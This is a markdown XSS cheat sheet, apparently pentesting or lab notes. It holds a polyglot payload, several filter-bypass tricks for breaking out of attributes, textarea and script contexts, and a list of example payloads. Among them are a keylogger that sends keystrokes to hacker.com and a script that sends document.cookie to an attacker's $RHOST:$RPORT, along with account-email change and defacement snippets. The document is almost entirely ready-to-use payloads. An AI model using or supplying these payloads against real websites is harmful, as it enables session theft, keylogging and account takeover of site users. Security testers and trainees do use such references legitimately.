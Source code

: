 **XSS POLYGLOTS**

String of text that can escape attributes, tags, bypass filters all in one.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e`
```

**BYPASS FILTERS:**

```
$FILTER: <script>, alert(), onerror, onsubmit, onload, onmouseover, onfocus, onmouseout, onkeypress, onchange
$METHOD: various filters that might be case sensitive can be bypassed with changes in your code
$BYPASS: <img src="x" ONERROR="alert('HHelloello')">,  <img src="x" ONERROR="prompt('HHelloello')">
```

```
$FILTER: <textarea></textarea>
$BYPASS: </textarea><script>alert('xss');</script>
```

```
$FILTER: <script>document.getelementsByClassName('name')[0].innerHTML='hello';</script>
$METHOD: Finish the initial code _"hello";_ and join to the end with _;$NEWCODE;_ and add // at end to comment out remainder of code running
$BYPASS: ';alert('xss');//
```

```
$FILTER: <input value="hello">
$METHOD: Close the value of the "hello" with > and add in code after
$BYPASS: ><script>alert('xss');</script>
```

```
$FILTER: $WORD i.e script
$METHOD: duplicate and mess with the filter, have the filter remove the $WORD from the entry but by removing it; the obfuscated $WORD will remain
$BYPASS: <s*script*cript>alert('xss');</s*script*cript>
```

```
$FILTER: forced entry <img scr=> && remove "<" and ">"
$METHOD: Closed src attribute with " then onload to add code after
$BYPASS: /images/cat.jpg" onload="alert('xss');
```


**EXAMPLE PAYLOADS**

> - Keylogger: `<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>`
> - Email Change: `<script>user.changeEmail('attacker@hacker.com');</script>`
> - Cookie Steal: `<script>new Image().src="http://$RHOST:$RPORT/hacked.php?output="+document.cookie;</script>` or encode base64 `+btoa(document.cookie);`
> - Defacing Webpage: `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`
> - Fetch IP hostname: `<script>alert(window.location.hostname)</script>`

---